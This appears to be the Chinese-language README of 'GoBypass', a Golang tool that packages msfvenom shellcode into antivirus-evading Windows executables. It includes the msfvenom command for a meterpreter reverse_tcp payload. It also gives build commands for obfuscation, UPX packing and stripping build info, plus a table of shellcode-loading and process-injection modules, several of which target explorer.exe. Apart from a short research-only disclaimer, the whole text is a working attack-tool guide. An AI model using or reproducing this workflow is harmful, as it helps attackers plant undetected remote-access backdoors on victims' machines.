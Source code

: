 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不懂二进制和免杀，只是搬运工，借鉴大佬的代码自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录执行先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                              |
|:-------------------------|:------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数                         |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程             |
| CreateRemoteThread       | 远程进程注入ShellCode（注入explorer.exe）                 | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                |
| CreateThread             | 利用Windows CreateThread函数                        |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数          |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数        |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数（注入explorer.exe） |
| UuidFromStringA          | 利用Windows UuidFromStringA函数                     |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode